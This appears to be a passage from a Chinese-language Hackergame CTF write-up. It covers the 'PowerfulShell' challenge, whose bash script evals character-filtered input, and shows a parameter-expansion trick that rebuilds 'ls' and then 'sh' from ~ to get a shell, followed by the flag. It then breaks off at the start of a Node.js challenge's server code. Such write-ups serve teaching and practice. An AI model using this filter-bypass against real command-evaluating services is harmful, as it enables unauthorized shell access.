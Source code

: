 ```bash
#!/bin/bash

FORBIDDEN_CHARS="'\";,.%^*?!@#%^&()><\/abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0"

PowerfulShell() {
    while true; do
        echo -n 'PowerfulShell@hackergame> '
        if ! read input; then
            echo "EOF detected, exiting..."
            break
        fi
        if [[ $input =~ [$FORBIDDEN_CHARS] ]]; then
            echo "Not Powerful Enough :)"
            exit
        else
            eval $input
        fi
    done
}

PowerfulShell
```
先看看能用的环境

`_`是`input`
`~`是`players`

于是构建

```bash
__=~ # /players
___=`${__:2:1}${__:7:1}` # `ls` = PowerfulShell.sh
____=${___:14:2} # sh
```

就拿到shell了


`flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_dd3329d66e}`

## Node.js is Web Scale

源代码：

```javascript
// server.js
const express = require("express");
const bodyParser = require("body-parser");
const path = require("path");
const { execSync } = require("child_process");

const app = express();
app.use(bodyParser.json());
app.use(express.static(path.join(__dirname, "public")));

let cmds = {
  getsource: "cat server.js",
  test: "echo 'hello, world!'",
};

let store = {};

// GET /api/store - Retrieve the current KV store
app.get("/api/store", (req, res) => {
  res.json(store);
});
```

  [1]: ./assets//4046521366.webp
  [2]: ./assets//281655009.webp
  [3]: ./assets//4046521366.webp
  [4]: ./assets//1500912061.webp
  [5]: ./assets//3096051582.webp
  [6]: ./assets//557543131.webp
